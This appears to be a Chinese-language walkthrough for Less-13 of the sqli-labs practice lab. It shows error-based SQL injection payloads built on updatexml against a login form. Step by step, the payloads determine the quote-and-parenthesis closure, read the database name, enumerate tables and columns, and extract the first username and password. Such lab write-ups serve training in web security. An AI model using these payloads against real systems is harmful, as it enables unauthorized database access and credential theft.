





# Less - 13

---

# 通关教程

---

## 1、判断闭合方式

---

```html
uname=admin'&passwd=admin&submit=Submit #页面回显错误信息
```

​​

通过报错信息我们知道闭合方式为’)，并且为字符型注入。因为这里没有数据回显，但是我们观察到有完整的错误信息，所以这里可以使用Boolean盲注报错注入攻击

---

## 2、查看当前数据库

---

```html
uname=a') or updatexml(1,concat(0x7e,(database()),0x7e),1)#&passwd=admin&submit=Submit
```

​​

---

## 3、查看security库下的第一张表

---

```html
uname=a') or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)#&passwd=admin&submit=Submit
```

​​

---

## 4、查看users表下的第一个字段

---

```html
uname=a') or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)#&passwd=admin&submit=Submit
```

​​

---

## 5、查看username和password字段的第一个值

---

```html
uname=a') or updatexml(1,concat(0x7e,(select concat(username,password) from security.users  limit 0,1),0x7e),1)#&passwd=admin&submit=Submit
```

​​

‍
